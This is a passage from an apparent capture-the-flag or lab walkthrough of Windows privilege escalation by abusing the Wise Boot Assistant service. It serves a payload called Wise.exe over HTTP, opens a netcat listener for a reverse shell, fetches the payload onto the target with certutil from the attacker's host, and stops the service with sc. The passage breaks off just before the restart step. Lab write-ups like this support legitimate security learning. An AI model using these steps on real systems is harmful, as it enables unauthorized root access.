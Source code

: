 Okay the payload is created and saved as `Wise.exe`

Let's start a `http server` in the folder right were our `Wise.exe` is present.

```
python3 -m http.server 80
```
Okay it has started !

## Getting Root

Open a new Terminal and setup a listener on port 7777(Change it with your port)

```
nc -nvlp 7777
listening on [any] 7777 ...
```


Now head back to the **shell** we have and go the location or folder where the **Vulnerable service** is running and upload your Payload **(Wise.exe)**

`Program Files (x86)\Wise\`

you can do that by :

```
certutil -urlcache -f http://yourip:80/Wise.exe Wise.exe
```

Do not run it !

What is happening here ?

if we run it,it will run as a **regular user** 
we need to stop the running `vulnerable` service which we found `wise boot assistant`

To stop the vulnerable service type :

```
sc stop WiseBootAssistant

sc: The command to manage Windows services.

stop: The action to stop the service.

WiseBootAssistant: The name of the service you want to stop.

```

To check the status of the service :

```
sc query WiseBootAssistant

sc query: Checks the status of a service.

```
Now we need to restart the service :
